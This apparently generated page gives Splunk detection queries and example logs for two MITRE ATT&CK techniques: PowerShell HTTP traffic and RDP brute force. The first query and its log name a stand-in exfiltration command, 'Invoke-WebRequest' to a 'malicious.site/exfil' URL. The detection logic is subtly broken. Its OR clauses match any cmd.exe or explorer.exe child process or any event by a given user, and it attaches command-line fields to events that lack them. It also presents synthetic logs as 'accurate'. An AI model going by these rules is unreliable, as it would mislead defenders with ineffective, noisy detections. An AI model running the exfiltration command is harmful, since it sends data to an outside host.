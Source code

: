 

## T1071.001 - Detection of HTTP Communication via powershell.exe

### Splunk Query

```spl
index=windows sourcetype="WinEventLog:Microsoft-Windows-PowerShell/Operational" EventCode="3" CommandLine="Invoke-WebRequest -Uri http://malicious.site/exfil"
OR ParentProcessName="C:\Windows\System32\cmd.exe"
OR User="svc-account"
```
### Accurate Result Data (Example Log)

```json
{
  "timestamp": "2024-05-28 20:50:00",
  "MITRE_Technique": "T1071.001",
  "Description": "Detection of HTTP Communication via powershell.exe",
  "sourcetype": "WinEventLog:Microsoft-Windows-PowerShell/Operational",
  "EventCode": "3",
  "CommandLine": "Invoke-WebRequest -Uri http://malicious.site/exfil",
  "ParentProcessName": "C:\Windows\System32\cmd.exe",
  "User": "svc-account",
  "Source_Network_Address": "192.168.56.131",
  "DestinationPort": "443"
}
```

---


## T1021.001 - Detection of RDP Brute Force via mstsc.exe

### Splunk Query

```spl
index=windows sourcetype="WinEventLog:Security" EventCode="4625" CommandLine="mstsc.exe /v:192.168.56.102 -session 83"
OR ParentProcessName="C:\Windows\System32\explorer.exe"
OR User="jdoe"
```
### Accurate Result Data (Example Log)

```json
{
  "timestamp": "2024-05-28 20:55:00",
  "MITRE_Technique": "T1021.001",
  "Description": "Detection of RDP Brute Force via mstsc.exe",
  "sourcetype": "WinEventLog:Security",
  "EventCode": "4625",
  "CommandLine": "mstsc.exe /v:192.168.56.102 -session 83",
  "ParentProcessName": "C:\Windows\System32\explorer.exe",
  "User": "jdoe",
  "Source_Network_Address": "192.168.56.133",
  "DestinationPort": "3389"
}
```

---
